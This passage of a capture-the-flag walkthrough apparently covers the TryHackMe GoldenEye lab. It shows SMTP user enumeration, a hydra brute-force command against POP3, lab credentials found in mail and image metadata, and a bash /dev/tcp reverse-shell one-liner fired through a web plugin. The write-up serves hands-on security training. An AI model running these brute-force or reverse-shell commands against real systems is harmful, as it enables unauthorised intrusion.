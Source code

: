 			1. `VRFY boris`
			2. `VRFY natalya`
			3. Both show up
	2. Add both of these into a file named `user.list` each name on a new line
	3. Lets start trying to crack these using hydra. I did test out the password we already have for user boris and found that it failed.
		1. `hydra -L user.list -P /usr/share/wordlists/fasttrack.txt $RHOST pop3 -s 55007 -t 64`
			1. Note I did try this with *rockyou.txt* for about 15mins as its usually a list that is used for CTF's
			2. Canceled that scan and tried another one I like to use as a second choice and this cracked both within a minute
			3. Passwords are listed below in LOOT
	4. Now that we have both of these creds lets get started on enumerating them starting with **boris**:
		1. We will start by running `STAT` this will show the total emails in this users account
		2. Then `LIST` will individually list these each out
		3. `RETR <EMAIL NUMBER>` for each of the emails
			1. Reading through the emails the first 1 is an email from root letting boris know that they trust them so won't scan any files they send...
			2. Email 2 is natalya laughing that they can break any or boris's codes
			3. Email 3 is from `alec@janus.boss` saying they are infiltrating the organization and their operative will be in place soon named *Xenia*
	5. Now move over to **natalya** in pop3 and see what she is up to:
		1. Contains two emails
			1. First is root saying to stop messing with boris and to be on the watch out for network breaches as a possible new syndicate *Janus*
			2. Second is another from root saying there is a new hire *Xenia* and wants natalya to get everything setup for them. They also provided the uses log in credentials in plaintext. It also says that boris already verified them so to just make the account
7. Next up the task on TryHackMe tells us that we need to add a DNS record to our hosts file.
8. Now navigate to the given directory for this new site `http://severnaya-station.com/gnocertdir`
	1. Use the credentials for xenia that we found in Natalya's email
		1. Once in we can explore around and find that the site is empty aside from 1 message to a user names **doak**
9. Take this new user back to pop3 and use hydra to crack it using the same wordlist we used before should take about 1 minute
	1. password found of **goat** for user **doak**
10. Use these new credentials to sign into pop3 and we will find 1 email that gives more lore and then gives creds for the training site that we signed into with **xenia** 
11. Back to the training site and sign in with the new creds found in Doak's email: **dr_doak** : **4England!**
	1. Again the site is pretty empty but we find an offline user in contacts of Admin with no messages
	2. Checking the private files we find `s3cret.txt`
	3. Download this file to our machine and read it we will find that it tells us they are 007 and have captured the admins creds but cant send them over this text file
		1. 007 then tells us about a funny image located at directory of `/dir007key/for-007.jpg`
			1. Download this with: `wget http://severnaya-station.com/dir007key/for-007.jpg`
				1. Once downloaded I tried [[stegseek]], [[binwalk]], [[exiftool]] got a hit with exiftool hidden in the `Image Description:` field `eFdpbnRlcjE5OTV4IQ==`
					1. Decoded from its Base64 format using CyberChef: `xWinter1995x!`
12. Use this new found users creds which are **admin** : **xWinter1995x!** on the training page. The tasks at this point tell us to take a look at the plugin `Aspell` we can use the search bar at the bottom to find it and it looks like this plug in executes code on the server so we can use this for a reverse shell
	1. `sh -i >& /dev/tcp/10.13.0.100/9001 0>&1`
	2. To get the shell to execute we can read that this plugin is call as a spell checker so lets go spell check something

